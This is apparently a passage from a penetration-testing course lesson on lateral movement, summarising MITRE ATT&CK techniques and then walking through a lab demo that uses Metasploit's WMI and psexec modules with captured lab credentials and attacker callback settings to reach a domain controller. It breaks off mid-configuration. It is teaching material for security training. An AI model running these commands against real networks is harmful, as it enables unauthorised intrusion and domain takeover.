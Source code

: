    2. There's often a greater number of possibilities for code execution when performing lateral movement. 
    - One major reason is that within an internal network, network firewall rules seldom apply. 
    - Internally networked machines often have much greater access to ports to other machines on the network.
      - For example, port 445 is almost always available on all internal Windows machines, but that port is commonly blocked on the internet-facing firewall. 

- Having greater access to ports allows the use of additional techniques, which we will explore.


There are several **lateral movement MITRE techniques**. Refer to the page for [lateral movement on MITRE](https://attack.mitre.org/tactics/TA0008/). 

 1. [Remote Services](https://attack.mitre.org/techniques/T1021/): This is an umbrella technique for any remote services on a machine. For example, SSH, VNC, and Remote Desktop Protocol (RDP) fall under this technique. Specifically, a common lateral movement tool is **PsExec**, which allows an administrator to execute PowerShell commands remotely. A pen tester can leverage this by remotely executing a malicious PowerShell payload on a remote machine to gain access to it.

 2. [Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/): This technique leverages RDP, which lets a user log in to a machine remotely and control it as if they are logged in to it physically. Pen testers can leverage this by logging in to any machines their compromised user has RDP access to. 

 3. [Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/): Exploitation of old services is also a common lateral movement technique for pen testers. The SMB protocol has had several critical-severity vulnerabilities that allowed a pen tester to easily get SYSTEM privileges remotely over a machine. 

 4. [Remote Services: SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/): This last example uses SMB to get access to a remote file system. In addition to serving the file system service, SMB is also used in conjunction with another protocol, RPC, in order to transfer files or access services such as Task Scheduler or Service Controller. 

	
### 05. Lateral Movement Activity

For this demo, you'll use bbanner's credentials to move laterally from Windows 10 to WINDC01. 

**Note:** This requires a SYSTEM shell on the Windows 10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with `tstark`'s credentials to obtain one.

1. Perform lateral movement to WINDC01 by using WMI via Metasploit. First, ensure you're working from a SYSTEM level shell on the Windows 10 machine, then use the `exploit/windows/local/wmi` module.

	- `use exploit/windows/local/wmi`
	
2. Set the following parameters:
		
	- `set RHOSTS 172.22.117.10`

        - `set LHOST 172.22.117.100`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
